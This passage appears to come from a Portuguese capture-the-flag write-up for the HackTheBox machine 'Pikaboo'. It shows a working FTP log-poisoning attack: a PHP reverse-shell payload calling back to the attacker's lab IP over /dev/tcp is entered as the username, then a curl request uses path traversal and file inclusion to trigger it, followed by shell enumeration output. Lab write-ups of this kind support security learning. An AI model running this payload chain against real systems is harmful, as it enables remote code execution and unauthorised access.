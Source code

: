 Conseguimos acesso ao log do VSFTPd!!!

Agora podemos utilizar a técnica de `Log Poisoning` para conseguir um `RCE` e talvez um reverse shell, e de quebra, conseguimos enumerar o user `pwnmeow`.
Tudo o que precisamos fazer é tentar nos concectar com o FTP, no lugar do username, inserimos um payload em `PHP`, ao enviarmos uma requisição para o log, teremos a execução do payload.

```bash
┌──(hastur㉿hastur)-[~/Pikaboo]
└─$ ftp 10.10.10.249                                            
Connected to 10.10.10.249.
220 (vsFTPd 3.0.3)
Name (10.10.10.249:hastur): <?php exec('/bin/bash -c "bash -i > /dev/tcp/10.10.14.111/8443 0>&1"'); ?>
331 Please specify the password.
Password:
530 Login incorrect.
Login failed.
ftp> quit
221 Goodbye.
```

Em password, podemos inseir qualquer coisa.

Agora setamos um `netcat` na porta informada no payload e enviamos um curl para o endereço.

```bash
┌──(hastur㉿hastur)-[~/Pikaboo]
└─$ curl http://pikaboo.htb/admin../admin_staging/index.php?page=/var/log/vsftpd.log
```
<img src="/img/htb/htb-pikaboo-11.png">

E conseguimos nosso shell!!!

```bash
www-data@pikaboo:/var/www/html/admin_staging$ cd /home
cd /home
www-data@pikaboo:/home$ ls -la
ls -la
total 568
drwxr-xr-x  3 root    root      4096 May 10 10:26 .
drwxr-xr-x 18 root    root      4096 Jul 27 09:32 ..
drwxr-xr-x  2 pwnmeow pwnmeow 569344 Jul  6 20:02 pwnmeow
www-data@pikaboo:/home$ cd pwnmeow
cd pwnmeow
www-data@pikaboo:/home/pwnmeow$ ls -la
ls -la
total 580
drwxr-xr-x 2 pwnmeow pwnmeow  569344 Jul  6 20:02 .
drwxr-xr-x 3 root    root       4096 May 10 10:26 ..
lrwxrwxrwx 1 root    root          9 Jul  6 20:02 .bash_history -> /dev/null
-rw-r--r-- 1 pwnmeow pwnmeow     220 May 10 10:26 .bash_logout
-rw-r--r-- 1 pwnmeow pwnmeow    3526 May 10 10:26 .bashrc
-rw-r--r-- 1 pwnmeow pwnmeow     807 May 10 10:26 .profile
lrwxrwxrwx 1 root    root          9 Jul  6 20:01 .python_history -> /dev/null
-r--r----- 1 pwnmeow www-data     33 Sep 19 19:43 user.txt
```
